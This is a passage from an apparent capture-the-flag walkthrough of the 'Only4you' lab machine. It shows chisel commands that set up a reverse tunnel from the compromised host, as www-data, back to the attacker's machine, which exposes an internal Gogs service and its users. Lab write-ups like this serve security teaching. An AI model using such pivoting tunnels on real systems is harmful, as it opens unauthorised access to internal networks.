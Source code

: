 Setting up chisel
on kali:
```
$ ./chisel server -p 8000 --reverse
```
On only4you:
```
www-data@only4you:/tmp$ chmod +x chisel
www-data@only4you:/tmp$ ./chisel client 10.10.14.139:8000 R:3000:127.0.0.1:3000
```
Now we can visit `localhost:3000` in our browser, and view the page on `only4you` listening at port 3000:

![](Images/InternalGogs25.png)

We can see an internal git service. There is another interesting port at 8001, but for now let's take a look at this page

We see two users viewable, john and administrator:

![](Images/users.png)

There are no repositories veiwable unfortunately, so it might be best to return to this after credentials are acquired.
